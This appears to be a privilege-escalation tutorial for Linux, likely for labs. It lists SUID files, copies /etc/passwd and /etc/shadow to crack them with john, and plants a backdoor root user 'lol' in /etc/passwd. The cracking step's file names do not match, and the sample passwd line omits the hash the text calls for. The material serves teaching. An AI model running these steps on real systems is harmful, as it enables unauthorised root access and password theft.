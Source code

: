Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. By now, you know that files can have read, write, and execute permissions. These are given to users within their privilege levels. This changes with SUID (Set-user Identification) and SGID (Set-group Identification). These allow files to be executed with the permission level of the file owner or the group owner, respectively.

You will notice these files have an “s” bit set showing their special permission level.

This will list files that have SUID or SGID bits set.

```
find / -type f -perm -04000 -ls 2>/dev/null
```
we can use this [GTFOBins](https://gtfobins.github.io/?source=post_page-----3fb61a09f7ba--------------------------------) to search and exploit some of the output.

If we exploit this we could take a copy from ```/etc/passwd``` and ```/etc/shadow``` to crack both of them.

First we need to unshadow those files:

```
unshadow passwd.txt shadow.txt > finall.txt
```
Then, john comes:
```
john --wordlist=/path/to/wordlist.txt final.txt
```
The other option is **adding a new user** **that has root privileges** named ```lol```. This would help us circumvent the tedious process of password cracking. Below is an easy way to do it:


We will need the hash value of the password we want the new user to have. This can be done quickly using the openssl tool on Kali Linux.
```
openssl passwd -1 -salt lol <new password>
```


Take the generated hash and add a new user entry in `/etc/passwd`. For example:

```ruby
lol:x:0:0:root:/root:/bin/bash
```


Here:

`0:0` means the user has UID=0 and GID=0, which grants root privileges.

/root is set as the home directory.

/bin/bash is the default shell.

After that, you can switch to the new user with:

```
su lol
```
Enter the password you defined earlier, and you will have root access





















